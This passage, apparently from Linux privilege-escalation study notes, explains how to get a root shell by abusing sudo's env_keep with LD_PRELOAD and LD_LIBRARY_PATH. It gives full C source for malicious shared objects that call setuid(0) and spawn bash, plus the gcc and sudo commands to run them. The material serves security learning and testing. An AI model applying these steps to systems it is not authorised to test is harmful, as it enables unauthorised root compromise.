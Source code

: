 An example of a simple C code to gain root can be:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
We can then save this code with a .c extension and compile it using `gcc` into a shared object file using the following
```sh
gcc -fPIC -shared shell.c -nostartfiles -o shell.so
```
Finally we can use this shared object when launching any program our user can run with sudo, we just need to run the program by specifying the LD_PRELOAD option as follows:
```sh
sudo LD_PRELOAD=/path/to/file/shell.so COMMAND-WITH-SUDO-PRIVILEGES
```
This will result in a shell spawn with root privileges

## Leverage LD_LIBRARY_PATH
Similar to what's happening in `LD_PRELOAD`, this environment variable provides a list of directories where shared libraries are searched for first instead. To be able to escalate we can follow the list:
- Check for `LD_LIBRARY_PATH` (with `env_keep` option enabled)
- Find the libraries that a program uses
- Write a simple C code compiled as a share object (.so) file that mimics one of the libraries
- Run the program with sudo rights and the `LD_LIBRARY_PATH` option pointing to our .so file
First we can run `ldd` against the `apache2` program file to see which shared libraries are used by the program:
```Shell
ldd /usr/sbin/apache2
```
Then we can craft our C code
```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
And compile it as a share object
```Shell
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```
Finally we can run `apache2` using sudo while setting the `LD_LIBRARY_PATH` to the directory where we saved the share object (we can use `.` if it is the one we are in)
```Shell
sudo LD_LIBRARY_PATH=/tmp apache2
```
# SUID / SGID